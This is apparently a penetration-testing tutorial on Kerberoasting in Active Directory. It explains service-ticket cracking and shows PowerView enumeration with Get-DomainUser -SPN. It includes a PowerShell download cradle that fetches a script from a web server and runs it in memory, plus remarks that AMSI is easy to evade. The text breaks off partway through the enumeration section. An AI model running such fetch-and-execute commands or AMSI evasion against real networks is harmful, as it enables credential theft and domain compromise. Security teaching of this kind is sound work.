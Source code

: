 

### [](#header-3)Introduction



Kerberoasting is an extremely common attack in active directory environments which targets Active Directory accounts with the SPN value set. Common accounts with the SPN **(Service Principal Name)** set are service accounts such as IIS User/MSSQL etc. 



Kerberoasting involves requesting a Kerb Service Ticket (TGS) from a Windows Domain Machine or Kali Box using something like **GetUserSPN's.py**. The problem with **TGS** is once the the **DC** looks up the target **SPN** it encrypts the **TGS** with the **NTLM Password Hash** of the targeted user account.



### [](#header-3)From Windows



There are numerous ways to enumerate service accounts and find Kerberoast targets so I will cover a few below, both from Windows Machines & Linux Machines.



#### [](#header-4)Powerview

The First will be PowerView.ps1 - If you have not heard of PowerView.ps1 by now and you are researching Kerberos attacks then you need to go back a little... 

PowerView is an insanely powerful **.ps1** created by Harmj0y which makes Enumerating & Exploiting AD Environments with PowerShell extremely easy. Even though Powershell is extremely monitored in this day and age by defenders it is still highly useful.

`https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1`



**Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



Of course `AMSI` will probably catch this on `WIN10 1803` but I will leave evasion upto yourselfs. There are numerous bypasses in my `h4cks` Repo and numerous out there online. `AMSI` is just string detection so it's easy to slip past.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -SPN
```



The ```Get-DomainUser``` function also supports the `-Credential` switch which allows you to pass a seperate credential through. For ex.

